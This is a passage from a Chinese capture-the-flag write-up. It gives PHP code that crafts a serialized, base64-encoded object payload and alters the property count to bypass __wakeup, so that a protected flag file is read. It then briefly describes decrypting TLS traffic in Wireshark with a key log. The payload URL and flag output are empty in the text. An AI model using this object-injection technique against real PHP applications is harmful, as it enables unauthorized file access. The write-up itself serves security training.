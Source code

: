可以看到是对var这个变量先序列化，再进行base64的编码。

构造php代码：

```
<?php
class Small_white_rabbit{ 
    private $file = 'the_f1ag.php'; 
}  
$a = new Small_white_rabbit;
$b = serialize($a);
$b = str_replace(":1:",":2:",$b);
$c= base64_encode($b);
echo $c;
?> 
```

把echo的值构造payload：

```
http: 
```

拿到flag：

```
 <?php

?> 
```

### 14\. wireshark2

用wireshark打开，导入题目给的ssllog.log密钥，过滤http。

然后就开始各种找。。。。

搜索login追踪TLS流，最后找到。。。。。

![image-20201206223256252](img/a3127cd7f1845929e69afb6401379b78.png)

![image-20201206223339304](img/c29f0564dca0058a52ef6c28788bb3f5.png)
